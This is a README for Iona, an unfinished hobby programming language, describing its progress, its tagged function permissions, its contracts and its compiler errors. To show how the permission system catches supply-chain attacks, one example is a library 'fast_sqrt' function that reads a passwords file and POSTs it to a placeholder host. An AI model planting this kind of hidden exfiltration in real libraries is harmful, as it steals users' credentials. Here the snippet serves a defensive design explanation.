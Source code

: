 # Iona Programming Language

Iona is a hobby programming language to research advanced programming language features. It is a work in progress, and is not currently usable.

Iona is somewhere between a functional and an imperative paradigm (like Rust).

### Current Status

A(n incomplete) list of things done and things that need doing.

**Top level**

- ❌ Ready for personal use and experimentation
- ❌ Ready for professional or production use

- ✅ Functions
- ❌ Container types (list, vec, etc.)
- ❌ Custom types (structs, enums, etc.)
- ❌ Tests (testing within Iona programs, not testing of the compiler)

**Internals**

- ✅ Lexing
- ✅ First-pass parsing (a fixed set of grammars)
- ❌ Expression parsing
- ✅ Post-parsing processing: scope computation
- ✅ Post-parsing processing: function declaration
- ❌ Static analysis: function requirements 
- ❌ Static analysis: type checking
- ✅ Code generation: function declarations
- ❌ Code generation: function bodies/execution logic
- ❌ Code generation: custom and container types

## Language Features

### Function Permissions

Supply chain attacks are a growing concern for software engineers. Who knows what that `sqrt` function you downloaded from NPM really does? Iona mandates that certain classes of side effect (like file or network I/O) are tagged, which allows the compiler to warn you about any hidden crypto-mining in your libraries. 

Permissions look like this:

```
import read_file write_file from std.files

fn copy_to :: old_filepath str -> new_filepath str {
    #Properties :: Export
    #Permissions :: ReadFile WriteFile
    let data :: str = read_file old_filepath
    write_file data new_filepath
}
```

Now suppose that you tried to write this function for a library:

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    let passwords :: list[str] = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

This wouldn't compile -- it doesn't have the necessary permissions. So you add them. 

```
import read_file write_file from std.files
import request from std.networking
import sqrt from std.math

fn fast_sqrt :: input float -> float {
    #Properties :: Export
    #Permissions :: ReadFile WriteNetwork
    let passwords = read_file "~./etc/passwords.txt"
    request "POST" "http://the-dark-net.fake" passwords
    return sqrt input
}
```

It compiles, great! You upload it and wait. An unsuspecting user imports your library and tries to write this code: 

```
import fast_sqrt from sketchy_library

fn main -> Void {
    let data = [1.0, 4.0, 9.0]
    map fast_sqrt data
}
```

They'll get a compiler error: `fast_sqrt` requires `ReadFile` and `WriteNetwork` but `main` doesn't have these. The user can now investigate why a math function would need those permissions!

### Contracts

Iona supports contracts: runtime checks to prevent a program from entering an invalid state. There are three types of supported contract:

1. Preconditions: checks before a function is executed
2. Postconditions: checks on the result of a function, before it's returned
3. Invariants: checks during function execution

The goal of contracts is to try and catch potential runtime errors at compile time. Suppose you have a division function `fn div :: numerator -> denominator -> quotient`. You could always manually check in the body that `denominator != 0`, but if you make it a contract the compiler can warn you ahead of time about runtime problems based on the inputs you provide. For instance, when composing functions we can check that the post conditions of the inner function are at least as strict as the pre conditions of outer function.

At least with pre- and post- conditions this is the same idea as [refinement types](https://en.wikipedia.org/wiki/Refinement_type), like Liquid Haskell.

```
// Function with a (precondition) contract
// If a contract does not evaluate to True, it errors (think of a contract like a "whitelist" of allowed inputs)
fn div :: a int -> b int -> int {
    #Properties :: Pure Export
    #In :: b != 0 -> "b must not be 0"
    return a / b
}
```

## Compiler Features

### Good Compiler Errors

They're not quite Rust quality (yet), but the compiler tries to help as much as it can.

Example (real output is colored, tedious to show in Markdown):

```sh
$ cargo run ./example-test-file.iona

Finished compiling in 186.36µs
error: issue during parsing on line 4: argument 'a' has no type information.
   3 | // Adds two numbers together
   4 | fn add :: a -> b int -> int {
   5 |     return a + b
 hint: add a type for this argument
 ```